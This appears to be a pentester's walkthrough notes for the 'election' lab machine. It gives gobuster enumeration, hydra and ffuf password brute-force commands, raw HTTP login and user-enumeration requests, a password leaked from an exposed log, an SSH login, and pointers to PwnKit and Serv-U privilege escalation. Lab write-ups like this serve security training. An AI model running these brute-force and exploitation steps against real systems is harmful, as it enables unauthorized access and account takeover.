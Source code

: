 Ports: 22, 80

```bash
gobuster dir -u http://192.168.201.211 -w /usr/share/wordlists/dirb/common.txt
```

```
/index.html           (Status: 200) [Size: 10918]
/javascript           (Status: 301) [Size: 323] [--> http://192.168.201.211/javascript/]
/phpmyadmin           (Status: 301) [Size: 323] [--> http://192.168.201.211/phpmyadmin/]
/phpinfo.php          (Status: 200) [Size: 95443]
/robots.txt           (Status: 200) [Size: 30]
```

```
http://192.168.201.211/robots.txt

admin
wordpress
user
election
```

```
http://192.168.201.211/phpinfo.php

# PHP Version 7.1.33
```

| System                    | Linux election 5.4.0-120-generic #136~18.04.1-Ubuntu SMP Fri Jun 10 18:00:44 UTC 2022 x86_64                                                 |     |
| ------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------- | --- |
| Loaded Configuration File | /etc/php/7.1/apache2/php.ini                                                                                                                 |     |
| Registered PHP Streams    | https, ftps, compress.zlib, php, file, glob, data, http, ftp, phar, zip                                                                      |     |
| Registered Stream Filters | zlib.*, string.rot13, string.toupper, string.tolower, string.strip_tags, convert.*, consumed, dechunk, convert.iconv.*, mcrypt.*, mdecrypt.* |     |
|                           |                                                                                                                                              |     |
| DOCUMENT_ROOT             | /var/www/html                                                                                                                                |     |
| User/Group                | www-data(33)/33                                                                                                                              |     |
| allow_url_fopen           | On                                                                                                                                           | On  |
| allow_url_include         | On                                                                                                                                           | On  |
|                           |                                                                                                                                              |     |
| iconv support             | enabled                                                                                                                                      |     |
| iconv implementation      | glibc                                                                                                                                        |     |
| iconv library version     | 2.27                                                                                                                                         |     |

Is valid site:
```bash
http://192.168.201.211/election/
http://192.168.201.211/election/admin/
```

```
http://192.168.201.211/election/admin/
CSS is hiding a password field. Use Burp to drop all CSS Requests.
```

SQLI exploits available
```bash
searchsploit election
# 48122
# https://github.com/J3rryBl4nks/eLection-TriPath-/blob/master/SQLiIntoRCE.md
```

Login brute-force:
```bash
hydra -I -l whatever -P /usr/share/wordlists/rockyou.txt 192.168.201.211 http-post-form \
"/election/admin/ajax/login.php:step=2&noinduk=1&sandi=^PASS^:F=denied"
```

```
ffuf -request login.req -request-proto http -w /usr/share/wordlists/rockyou.txt -fr 'Access denied'
```

```bash
gobuster dir -u http://192.168.201.211/election/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt -x php

# /card.php             (Status: 200) [Size: 1935]
# => weird file with 1s and 0s, but nothing interesting
```

User enum
```http
POST /election/admin/ajax/pemilihan.php HTTP/1.1
Host: 192.168.201.211
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 27
Origin: http://192.168.201.211
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://192.168.201.211/election/
Cookie: PHPSESSID=dn5v1b1dsl8itm76iied6be42s; el_lang=en-us;
Priority: u=0

step=start&kode_akses=FUZZ
```

Login brute-force:
```bash
ffuf -request user.req -request-proto http -w /usr/share/wordlists/rockyou.txt -fr 'Code is incorrect'
```

Default credentials:
```
https://sourceforge.net/p/election-by-tripath/wiki/Documentation%20-%20Installer%20Guide/

ID: 1234  
Password: 1234
```

Req:
```
POST /election/admin/ajax/login.php HTTP/1.1
Host: 192.168.201.211
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 19
Origin: http://192.168.201.211
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://192.168.201.211/election/admin/
Cookie: PHPSESSID=n8flsi0miam5nd19ast45hes3s; el_lang=en-us
Priority: u=0

step=1&noinduk=1234
```

Resp:
```
HTTP/1.1 200 OK
Date: Tue, 20 May 2025 21:31:21 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: blocked_num=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/
Vary: Accept-Encoding
Content-Length: 91
Keep-Alive: timeout=5, max=98
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"nama":"Love","role":"Administrator","not_me":"Not Love?","picture":"..\/media\/user.png"}
```
=> Username: Love

the right way to fuzz
```bash
gobuster dir -u http://192.168.201.211/election/admin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -f
```

=> `/logs/system.log`
```
http://192.168.201.211/election/admin/logs/system.log

[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
[2025-05-21 01:41:01] Unknown IP is blocked from system. Cause: Brute-force @1's password.
[2025-05-21 02:16:56]  has been logged out from Unknown IP.
```

SSH login as love:
```bash
ssh love@192.168.201.211
# P@$$w0rd@123
```

# PrivEsc

PwnKit kernel exploit

or

SUID binary Serv-U:
```
/usr/local/Serv-U

searchsploit serv-u
```